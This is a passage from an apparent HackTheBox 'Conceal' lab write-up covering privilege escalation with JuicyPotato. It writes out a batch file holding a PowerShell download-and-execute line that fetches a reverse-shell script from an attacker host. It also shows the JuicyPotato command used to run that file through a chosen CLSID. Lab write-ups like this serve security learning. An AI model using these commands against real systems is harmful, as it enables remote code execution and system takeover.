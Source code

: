 - `badfile.bat` - Uploading through .bat due to strings " " and ' '.
    
    ```conf
    powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/rev.ps1')"
    ```
    

It will also be uploaded via FTP.


- `tnftp -A 10.10.10.116`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2037.png)
    

Another thing is this [http://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/](http://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/) site is great for viewing the CLSID - We need to pick a service we believe is more common and likely to be active.

- `{e60687f7-01a1-40aa-86ac-db1cbf673334}` - Chose this due to Windows update likely being active.
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2038.png)
    
- `.\jp.exe -t "*" -p ".\badfile.bat" -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2039.png)
    